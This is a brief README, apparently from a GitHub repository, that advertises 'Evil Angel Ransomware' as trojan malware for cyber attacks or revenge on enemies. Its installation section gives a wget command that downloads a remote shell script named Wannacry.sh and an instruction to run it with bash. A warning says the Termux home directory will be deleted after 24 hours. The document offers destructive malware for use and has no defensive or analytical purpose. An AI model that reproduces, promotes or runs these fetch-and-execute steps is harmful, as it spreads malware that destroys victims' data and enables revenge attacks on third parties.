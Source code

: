 # Evil-Angel-Ransomware
Evil Angel is A Trojan Malware You Can User Evil Angel For Cyber Attacks or Revenge To Your Enemy

# Installation

wget https://raw.githubusercontent.com/HAXOR-BD1/Evil-Angel-Ransomware/main/Wannacry.sh

Then Run "bash Wannacry.sh"

# WARNING ⚠️

TERMUX HOME TERMINAL ARE GOING TO BE DELETED AFTER 24 HOURS
